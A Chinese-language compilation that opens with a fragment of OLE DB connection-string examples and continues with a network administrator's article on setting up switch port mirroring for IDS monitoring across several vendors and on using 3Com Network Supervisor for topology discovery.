strConnect = _T("Provider=Microsoft.Jet.OLEDB.4.0;DataSource=C:\DatabasePath\MmDatabase.mdb;" "User Id=admin;Password=;");
```

```
strConnect = _T("Provider=MSDAORA;DataSource=MyOracleDB;User Id=myUsername; Password=myPassword;");
```

使用工作组(系统数据库):

标准安全模式:

```
strConnect = _T("Provider=Microsoft.Jet.OLEDB.4.0;Data Source=C:\DataBasePath\mydb.mdb;" "JetOLEDB:System Database= MySystem.mdw;"); pRs.Open(strConnect, "MyUsername", "MyPassword");
```

```
strConnect = _T("Provider=OraOLEDB.Oracle;DataSource=MyOracleDB;" " User Id=myUsername; Password=myPassword;");
```

以 JET OLE DB Provider 方式打开 Excel 工作簿:

建立信任连接:

```
strConnect=_T("Provider=Microsoft.Jet.OLEDB.4.0;" "Data Source=C:\DatabasePath\DBSpreadSheet.xls;" "Extended Properties="Excel 8.0;HDR=Yes;";");
```

```
strConnect = _T("Provider=OraOLEDB.Oracle;DataSource=MyOracleDB;User Id=/;Password=;");
```

以 JET OLE DB Provider 工作方式打开文本文件:

使用“OSAuthent”进行操作系统的验证:

```
CString strQuery = _T("Select Name, Address From Clients.txt");
```

```
strConnect = _T("Provider=OraOLEDB.Oracle;DataSource=MyOracleDB;OSAuthent=1;");
```

OLE DB Provider for ODBC Databases

OLE DB Provider for Visual FoxPro

连接 Microsoft Access database:

```
strConnect = _T("Provider=vfpoledb;Data Source=C:\DatabasePath\MyDatabase.dbc;");
```

```
strConnect = _T("Provider=MSDASQL;Driver={Microsoft Access Driver (*.mdb)};" "Dbq=c:\DatabasePath\MyDatabase.mdb;");
```

OLE DB Provider for Index Server

```
strConnect = _T("Provider=msidxs;DataSource=MyCatalog;");
```

本文主要是作为编程时的查询资料,在查询时注意要根据所工作的模式、环境以及是否使用 OLE 进行编程等情况进行编程。

# 网管软件在小型网络里的简单应用



对于交换机这些设备，相信很多读者都有所接触，但是大部分应该只限于某1种，由于交换机在网络中起着尤为重要的作用，在网络中的应用也很广泛，因此我们有必要来看看他们的一些实际应用，扩展我们的视野。

文/SQL

## CISCO 1900 交换机

在成都一个客户的网络里做IDS和网络管理设置的时候，需要在网络的交换机上设置一个侦听口来监视整个网络所有数据包的发送接收情况，对方是一个小型的交换网络，采用的是CISCO的1900交换机，由于之前没有摸过1900，所以经过简单的摸索，把方法写出来供各位参考。

Catalyst 1900系列交换机是以太网络较好的工业标准。它为每个以太网口提供了低廉的价格，在工作组中为每个到桌面的连接提供了10M甚至更高的性能。Catalyst 1900系列交换机提供了较好的易用性和基于Web的管理界面。标准版本的交换机在升级到企业版时具有良好的灵活性和扩展性，安全性带宽优化，支持网络多媒体，和VLAN企业版本的交换机预装有企业版的软件，提供标准版的升级工具包。

Catalyst 1900系列标准版：面向各个桌面和10BaseT集线器的最低成本的交换型以太网；面向100BaseT或100BaseFX主干或服务器的高速连接；可升级到企业版的软件。

Catalyst 1900系列企业版：端到端ISL VLAN；通过Fast EtherChannel技术提供带宽集合；通过TACACS+和多级控制台访问提供增强的安全；通过Cisco IOS命令行接口(CLI)跨Cisco产品线提供一致的管理界面。

1900交换机适用于网络末端的桌面计算机接入，是一款典型的低端产品。它提供12或24个10M端口及2个100M端口，其中100M端口支持全双工通讯，可提供高达200Mbps的端口带宽。机器的背板带宽是320Mbps。带企业版软件的1900还支持Vlan和ISL Trunking，最多4个Vlan，但一般情况下，低端的产品对这项功能的要求不多。某些型号的1900带100BaseFX光纤接口。如C1912C、C1924C带一个百兆Tx口和一个百兆Fx口，C1924F带两个100BaseFX接口。

首先我还是选择用80端口的Web接口来管理，命令行方式还是太复杂了。刚一登陆后看到的界面是1900的一个很简单的图形化界面，示意当前交换机上接口的物理连接状况（图1）。



图1

在第二栏上的Port上可以很快查到当前各个端口的配置状态（图2）。



图2

在 Address 项目里，我们首先需要在动态的地址表里查看自己主机的 MAC 地址所对应的交换机上的以太接口号（图 3 ）。



SNMP 里面是用来设置远程 SNMP 管理的一些项目（图 4 ）。



在 SPAN 栏里就是我们这次工作的重点了。在默认情况下，交换机里面是没有启动 SPAN 监听的（图 5 ）。



配置好了以后就是这个状态，我们在交换机的 Ethernet8 口上监听所有其他口的数据流量（图 6 ）。

另外，在状态栏中我们可以实时查看交换机上所有口的数据流量的情况，包括接收转发等（图 7 ）。



# 常见交换设备的侦听口设置方法

我之前也曾经介绍过一款3COM交换机侦听口的设置步骤和方法，其实在网络中还有很多其他公司的交换机产品，同一公司产品不同型号之间的设置方法也是有所差异的，今天我就简单的总结一些。

### 3COM交换机端口监听配置

在3COM交换机用户手册中，端口监听被称为“Roving Analysis”。网络流量被监听的端口称作“监听口”（Monitor Port），连接监听设备的端口称作“分析口”（Analyzer Port）。

以下命令配置端口监听：

- 指定分析口
```
feature rovingAnalysis add, 或缩写 FRA, 例如：
Select menu option: feature rovingAnalysis add
Select analysis slot: 1
Select analysis port: 2
```

- 指定监听口并启动端口监听
```
feature rovingAnalysis start, 或缩写 FRSta, 例如：
Select menu option: feature rovingAnalysis start
Select slot to monitor (1-12): 1
Select port to monitor (1-8) 3
```

- 停止端口监听
`feature rovingAnalysis stop, 或缩写 frsto,`

- 删除分析口并还原其状态
`feature rovingAnalysis remove, 或者使用缩写 FRR。`
使用此命令之前需执行停止端口监听命令。

- 查看分析口和监听口的设置:
`feature rovingAnalysis summary, 或者使用缩写 FRSu,`
例如:
```
Select menu option: feature rovingAnalysis summary
```

| Monitor port | Analysis port | State |
|---|---|---|
| Slot 3 Port 5 | Slot1 Port2 | Enabled |

### Intel交换机端口监听配置

Intel 称端口监听为“Mirror Ports”。网络流量被监听的端口称作“源端口”(Source Port), 连接监听设备的端口称作“镜像口”(Mirror Port)。

以下步骤配置端口监听:

- 在 navigation 菜单, 点击 Statistics 下的 Mirror Ports, 弹出 Mirror Ports 信息。
- 在 Configure Source 列中点击端口来选择源端口, 弹出 Mirror Ports Configuration。
- 进行源端口设置: 源端口是镜像流量的来源口, 镜像口是接收来自源端口流量的端口。
- 点击 Apply 确定

可以选择三种监听方式:

- 1. 连续 (Always): 镜像全部流量。
- 2. 周期 (Periodic): 在一定周期内镜像全部流量。镜像周期在 Sampling Interval configuration 中设置。
- 3. 禁止 (Disabled): 关闭流量镜像。

## 华为交换机端口监听配置

在华为交换机用户手册中, 端口监听被称为“端口镜像”(Port Mirroring)。

使用 Huawei Lanswitch View 管理系统添加一个镜像端口:

- 选择 Device Setup 或 Stack Setup。
- 点击 Port Mirroring。
- 点击 Add 按钮。
- 对于堆叠, 点击 Switch 并从列表选择一个交换机。
- 点击 Reflect from 并选择流量将被镜像的端口。
- 点击 Reflect to 并选上面所选择的端口上的流量将被镜像至的目的端口。

### Avaya交换机端口监听配置

在 Avaya 交换机用户手册中, 端口监听被称为“端口镜像”(Port Mirror)。

以下命令配置端口监听:

```
{ set|clear } Port Mirror
使能端口监听: set port mirror <mod-port-range> source-port <mod-port-range> mirror-port <mod-port-spec> sampling { always | disable | periodic } [ max-packets-sec < max-packets-sec-value> ] [ piggyback-port <mod-port-spec> ]
禁止端口监听: clear port mirror <mod-port-range>
```

命令中, mod-port-range 指定端口的范围; mod-port-spec 指定特定的端口; piggyback-port 指定双向镜像的端口; sampling 指定镜像周期; max-packets-sec 仅在 sampling 设置为 periodic 时使用, 指定监听口每秒最多的数据报数量。

### Cisco交换机端口监听配置

- 1. Catalyst 2900XL/3500XL/2950 系列交换机端口监听配置
以下命令配置端口监听:
`port monitor <interface>`
例如, F0/1 和 F0/2、F0/2 同属 VLAN1, F0/1 监听 F0/2、F0/2 端口:
```
interface FastEthernet0/1
port monitor FastEthernet0/2
port monitor FastEthernet0/5
port monitor VLAN1
```

- 2. Catalyst 4000, 5000, and 6000 系列交换机端口监听配置
以下命令配置端口监听:
`set span`
例如, 模块 6 中端口 1 和端口 2 同属 VLAN1, 端口 3 在 VLAN2, 端口 4 和 5 在 VLAN2, 端口 2 监听端口 1 和 3、4、5，
```
set span 6/1,6/3-5 6/2
```
以下命令禁止端口监听：
`set span disable [dest_mod/dest_port|all]`

# 3Com Network Supervisor

说到简单的网络管理，我这里介绍的是3Com公司的3Com Network Supervisor 网管软件。这是一种基于 Windows 系列平台的应用，可以提供强大而易于使用的网络管理，以满足企业的需求。通过以下的功能，该软件大大地简化了网络管理员的工作：

- 1. 自动探测网络中的设备——能探测到其他可网管产品；
- 2. 主动识别存在的问题——不同网段，不同 Vlan 段都可识别；
- 3. 向导驱动的图形化用户接口——控制方便，一切尽在掌握中；
- 4. 自动网络报警以快速解决问题——交换机运作情况可通过 E-mail 实时传送到网管。

为网络设备的管理软件升级是一项非常紧张耗时的工作，尤其是对大型网络。网络管理员经常需要对每一台网络设备的管理软件进行逐个升级，并且分别记录不同设备的软件版本信息。企业也经常会因为等待重要新软件的发布而错过了在此之前对网络设备进行有效更新和加强新功能的机会。3Com公司推出的3Com Network Supervisor这一功能强大并且易于使用的网络管理应用软件，为网络管理人员提供了可以节省时间的选择方案。这套创新软件产品加入了许多新功能，包括网络管理人员只需要进行几次点击便可以通过网络轻松进行网络设备管理软件的升级。

Network Supervisor网络管理软件的增强产品包能够帮助网络管理人员通过大型网络轻松完成新软件的升级工作。这一创新功能是通过 Network Supervisor 网络管理软件基于 Web 的“即时更新”功能下载最新版本的3Com 设备软件而得以实现的。网络管理人员可以凭借这一功能保持网络设备始终运行在最新版本的管理软件之上，并且能够迅速利用新管理软件所具有的新功能。Network Supervisor网络管理软件的增强产品包还提高了3Com Network Supervisor网络管理软件所能够支持的节点数，使其能够被用来管理更大规模的网络，能够支持多达 2500 台 IP 设备。

Network Supervisor Version 3.5 版本现在已经能够支持作为网络管理软件安全性基础之一的多重 SNMP Community String。这一功能可以使网络管理人员加强对网络设备管理的控制能力，防止假冒的管理者对设备配置随意改动。3.5 版的 Network Supervisor Version 软件还能够以 IP 子网的形式或者简单的第二层视图的方式来向网络管理人员展示网络图，因而，即使是对于超大型的网络，该软件也能够为其管理人员提供一幅有关网络整体环境布局的完整视图。利用开放的网络管理平台进行网络管理，3.5 版的 Network Supervisor Version软件还能够实现从3Com Network Supervisor网管平台上向HP OpenView Network Node Manager 平台上转发告警信息，从而使网络管理人员能够更加集中地对网络运行状态进行监控。

Network Supervisor网络管理软件能够通过图形化方式来发现、映射并且展示网络中的各种链路配置以及 IP 设备分布情况，其中包括3Com公司的3Com NBX IP 话音系统以及来自包括 Cisco、HP 和 Nortel 等其他厂商的第三方设备。利用 Network Supervisor 网络管理软件，管理人员能够轻松地对网络所承受的流量压力进行监控、设定极限与告警、观察网络事件、以用户所要求的格式生成监测报告并运行各类设备配置工具。

在做简单的网络管理的时候我采用的是3Com公司的这款网络管理软件，它体积小巧，但是功能还算不错，是个很好的网络管理入门级的软件。安装好了之后，我们需要在 File 菜单里选择 New 的项目（图 8）。



图 8

通常情况下，3Com 的工具可以应用在各种网络环境下，包括在公网上使用，我们这里为了简简单的讲解，就选择在当前的子网里进行自动发现（图9）。



图9

默认情况下有很多具体的参数需要设置，但我们也可以全部选用默认的配置，等以后使用多了再慢慢摸索，直接点击“完成”就好了（图10）。



图10

之后，软件会自动搜索我们所定义的当前网络范围的主机（图11）。扫描完成后，就可以看到如图12所示的网络拓扑图了。是不是非常直观？我们可以清楚地看到中间是一台 Cisco 1900 的交换机，在它上面接着需要的终端计算机，1900 上层是一台 Cisco 3640 的路由设备，整个网络结构很清楚地展现在了我们面前。

